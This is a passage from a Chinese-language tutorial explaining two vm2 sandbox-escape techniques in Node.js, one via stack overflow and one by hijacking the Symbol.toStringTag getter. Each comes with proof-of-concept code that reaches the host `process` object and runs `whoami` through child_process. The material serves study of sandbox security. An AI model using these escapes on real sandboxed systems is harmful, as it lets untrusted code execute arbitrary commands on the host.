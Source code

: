 ```javascript
    try{
        i=r(i).constructor.constructor("return process")();
        break;
    }catch(x){
        i++;
    }
}
i.mainModule.require("child_process").execSync("whoami").toString()
`;
try{
    console.log(new VM().run(untrusted));
}catch(x){
    console.log(x);
}
```

想办法在沙箱外的代码中触发一个异常，并在沙箱内捕捉，这样就可以获得一个外部变量e，再利用这个变量e的constructor执行代码。 而触发异常的方法就是“爆调用栈”，JavaScript在递归超过一定次数时就会抛出异常。但我们需要保证的是：抛出异常的这个函数是在host作用域中（即沙箱外）。



```javascript
Symbol = {
  get toStringTag(){
    throw f=>f.constructor("return process")()
  }
};
try{
  Buffer.from(new Map());
}catch(f){
  Symbol = {};
  f(()=>{}).mainModule.require("child_process").execSync("whoami").toString();
}
```

vm2会代理与初始化沙箱内对象，如果此时这个对象是下面类型，则会执行Decontextify.instance()函数。

![image-20221224224834943](E:\MyBook\Node_Park\.gitbook\assets\image-20221224224834943.png)

这个函数中，用到了一个全局对象Symbol，我们劫持这个对象的getter()方法。这样，vm2在执行到Decontextify.instance()函数会抛出异常，因为这个异常是在沙箱外的代码抛出的，我们在沙箱内拿到的异常对象e，这就是一个外部变量。

![image-20221224224858308](E:\MyBook\Node_Park\.gitbook\assets\image-20221224224858308.png)

POC中劫持了Symbol.toStringTag的getter，并在这个getter函数中抛出异常，这个“异常”是一个回调函数。然后我们在catch中捕捉这个函数，即可拿到沙箱外部的process对象。